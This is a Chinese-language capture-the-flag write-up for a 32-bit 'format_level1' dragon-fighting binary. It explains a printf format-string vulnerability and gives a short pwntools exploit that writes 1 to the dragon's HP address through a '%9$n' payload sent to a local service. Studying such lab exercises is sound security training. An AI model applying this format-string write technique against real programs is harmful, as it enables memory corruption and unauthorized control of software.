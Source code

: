 # format level1

## 文件分析

下载`format_level1`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

程序员斗恶龙的故事开始了！由于我们先攻击龙，
所以我们的目标是我们的atk>龙的hp即可  
程序中我们的初始atk为1，而龙的hp为10M，每次沉淀可以增加1点atk  
~~那么只要沉淀10,000,000次就可以秒杀恶龙了~~  
程序中存在printf漏洞，将大数字注入atk较难，但将小数字注入hp却较简单，
只要将龙的血量置1，就可以达成目标，拿到flag

程序未开启PIE，所以地址没有偏移，方便直接注入；
通过gdb调试可知，`talk`函数中printf漏洞的str位于栈上第7个，
由此可构造如下exp进行血量修改

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 38469)
sh.sendline(b'2') # 练习时长1坤年，作者也是小黑子
sh.sendline(b'3') # talk with dragon
dragonhpAddr = 0x0804c00c
sh.sendline(b'0%9$n000' + p32(dragonhpAddr)) # write 1 to addr (1x'0')
sh.sendline(b'1') # attack the dragon
sh.interactive()
```

> 注：arg7:'0%9$', arg8:'n000', arg9:dragonAddr；所有0都是占位符，无实际含义

这道题构造payload时出了点小问题：sendline太快，最后的`1`没读到，
要重新打，服务器读取问题要考虑！遇到这种情况就要使用sendlineafter()

Done.
